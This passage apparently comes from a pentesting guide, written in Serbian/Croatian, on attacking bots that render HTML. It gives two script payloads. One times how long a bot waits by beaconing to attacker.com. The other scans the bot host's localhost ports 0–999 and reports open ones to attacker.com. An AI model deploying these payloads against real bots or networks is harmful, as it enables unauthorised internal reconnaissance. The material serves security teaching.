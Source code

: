 Na primer, u Pythonu možete koristiti biblioteku `time` i funkciju `sleep()` kako biste postavili kašnjenje između iteracija. Evo kako to možete uraditi:

```python
import time

# Postavite kašnjenje od 1 sekunde između iteracija
time.sleep(1)
```

Ovo će zaustaviti izvršavanje programa na 1 sekundu pre nego što nastavi sa sledećom iteracijom. Možete prilagoditi vreme kašnjenja prema potrebama i zahtevima napada.

Važno je napomenuti da kašnjenje robota može biti korisno u određenim situacijama, ali nije uvek neophodno ili efikasno. Treba pažljivo proceniti kada je potrebno koristiti kašnjenje robota kako bi se postigao optimalan rezultat napada.

```markup
<!--Make the bot send a ping every 500ms to check how long does the bot wait-->
<script>
let time = 500;
setInterval(()=>{
let img = document.createElement("img");
img.src = `https://attacker.com/ping?time=${time}ms`;
time += 500;
}, 500);
</script>
<img src="https://attacker.com/delay">
```

### Skeniranje portova

Port skeniranje je proces koji se koristi za identifikaciju otvorenih portova na ciljnom računaru ili mreži. Ova tehnika omogućava hakerima da otkriju ranjive tačke ulaza i izlaza, kao i da identifikuju servise koji su dostupni na ciljnom sistemu.

Da biste izvršili port skeniranje, možete koristiti različite alate kao što su Nmap, Masscan ili Zmap. Ovi alati šalju mrežne zahteve na određene portove i analiziraju odgovore kako bi utvrdili da li su portovi otvoreni, zatvoreni ili filtrirani.

Port skeniranje može biti korisno u procesu testiranja penetracije, jer omogućava identifikaciju potencijalnih ranjivosti i slabosti u mrežnoj infrastrukturi. Međutim, važno je napomenuti da port skeniranje može biti nezakonito ako se izvodi bez dozvole vlasnika sistema ili mreže.

Kada izvršavate port skeniranje, važno je biti pažljiv i poštovati zakonske propise. Uvek se preporučuje da imate pisanu dozvolu od vlasnika sistema ili mreže pre nego što izvršite bilo kakvo skeniranje portova.

```markup
<!--Scan local port and receive a ping indicating which ones are found-->
<script>
const checkPort = (port) => {
fetch(`http://localhost:${port}`, { mode: "no-cors" }).then(() => {
let img = document.createElement("img");
img.src = `http://attacker.com/ping?port=${port}`;
});
}

for(let i=0; i<1000; i++) {
checkPort(i);
}
</script>
<img src="https://attacker.com/startingScan">
```
